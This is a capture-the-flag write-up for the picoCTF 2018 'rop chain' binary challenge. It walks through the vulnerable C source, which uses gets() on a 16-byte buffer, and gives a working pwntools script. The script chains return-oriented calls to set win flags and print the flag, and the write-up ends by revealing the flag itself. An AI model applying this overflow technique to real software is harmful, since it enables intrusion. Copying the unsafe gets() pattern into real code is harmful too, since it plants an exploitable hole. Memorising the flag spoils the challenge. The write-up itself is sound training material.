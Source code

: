 ![title](imagse/title.png)

![hint](images/hint.png)

### rop.c

Lets break it down. Two variables win1 and win2 are declared false.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define BUFSIZE 16

bool win1 = false;
bool win2 = false;
```

Calling win_function1() changes win1 to true and calling win_function2() with the argument 0xbaaaaaad changes win2 to true

```c
void win_function1() {
  win1 = true;
}

void win_function2(unsigned int arg_check1) {
  if (win1 && arg_check1 == 0xBAAAAAAD) {
    win2 = true;
  }
  else if (win1) {
    printf("Wrong Argument. Try Again.\n");
  }
  else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void flag(unsigned int arg_check2) {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
 
```

If we call the flag function with win1 and win2 as true with the argument 0xdeadbaad we will get our flag
```c 
  if (win1 && win2 && arg_check2 == 0xDEADBAAD) {
    printf("%s", flag);
    return;
  }
  else if (win1 && win2) {
    printf("Incorrect Argument. Remember, you can call other functions in between each win function!\n");
  }
  else if (win1 || win2) {
    printf("Nice Try! You're Getting There!\n");
  }
  else {
    printf("You won't get the flag that easy..\n");
  }
}
```

Our vulnerability we will be taking advantage of. Overflow gets and return to various functions but use vuln() to return to after completing those functions
```c
void vuln() {
  char buf[16];
  printf("Enter your input> ");
  return gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
}
```

## Strategy

1. Determine buffer amount required to control the return pointer
2. Collect the addresses of win_function1(), win_function2(), flag(), and vuln()
3. Build and send the first payload consisting of buf + win_function1() + vuln()
4. Build and send the second payload consisting of buf + win_function2() + vuln() + arg1(0xbaaaaaad)
5. Build and send the third payload consisting of buf + flag() + vuln() + arg2(0xdeadbaad)

### apple.py

```python
#!/usr/bin/env python

from pwn import *
import sys
argc = len(sys.argv)

context.log_level = 'critical'

#establish elf and collect addresses
e = ELF('./rop')
win1 = e.symbols['win_function1']
win2 = e.symbols['win_function2']
flag = e.symbols['flag']
vuln = e.symbols['vuln']

#store our args for later use
arg1 = 0xbaaaaaad
arg2 = 0xdeadbaad

# find buffer using pwn cyclic
# pwn cyclic 50 | strace ./rop
# --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x61616168} ---
# +++ killed by SIGSEGV +++
# Segmentation fault
# ~/ctf_writeups/pico2018/binary/rop_chain# pwn cyclic -l 0x61616168
# 28
buf = 28

#remote or local
if argc > 1:
	from getpass import getpass
	ssh = ssh(host='2018shell.picoctf.com', user='ems3t', password=getpass())
	p = ssh.process('rop', cwd='/problems/rop-chain_0_6cdbecac1c3aa2316425c7d44e6ddf9d')
else:
	p = process('./rop')


#build our pwn function
def pwn(ret1, ret2, arg):
	payload = ''
	payload+= 'A'*buf
	payload+= p32(ret1)
	payload+= p32(ret2)
	payload+= p32(arg)
	p.sendlineafter('> ', payload)

#send first payload to make win1=true
pwn(win1, vuln, 0)

#send second payload to make win2 = true
pwn(win2, vuln, arg1)

#send third payload to print flag
pwn(flag, vuln, arg2)

#print the stdout and close the program
print p.recvline()[:-1]
p.close()
```

<details>
	<summary>Flag</summary>

picoCTF{rOp_aInT_5o_h4Rd_R1gHt_536d67d1}
</details>